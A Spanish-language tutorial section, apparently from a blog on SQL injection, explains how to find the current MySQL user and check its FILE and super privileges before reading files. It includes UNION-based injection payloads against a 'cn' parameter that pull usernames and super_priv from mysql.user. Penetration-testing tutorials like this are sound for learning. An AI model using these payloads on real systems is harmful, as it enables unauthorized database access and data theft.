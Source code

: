 
#### Lectura de archivos

##### Privilegios

La lectura de datos es mucho más habitual que la escritura de datos, que está estrictamente reservada a usuarios privilegiados en los DBMS modernos, ya que puede dar lugar a la explotación del sistema.

Por ejemplo, en MySQL, el usuario de la base de datos debe tener el privilegio FILE para cargar el contenido de un archivo en una tabla y, a continuación, volcar los datos de esa tabla y leer los archivos. 

Por lo tanto, comencemos por recopilar datos sobre nuestros privilegios de usuario dentro de la base de dato.

##### DB User

En primer lugar, debemos determinar qué usuario somos dentro de la base de datos. Aunque no necesitamos necesariamente privilegios de administrador de bases de datos (DBA) para leer datos, esto es cada vez más necesario en los DBMS modernos, ya que solo los DBA tienen esos privilegios. 

Lo mismo se aplica a otras bases de datos comunes. Si tenemos privilegios de DBA, es mucho más probable que tengamos privilegios de lectura de archivos. Si no los tenemos, debemos comprobar nuestros privilegios para ver qué podemos hacer. 

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

##### Privilegios del usuario

```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

Si existe más de un usuario en la base de datos;

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

![image](/assets/img/posts/sql-injection/20251013165402.png)
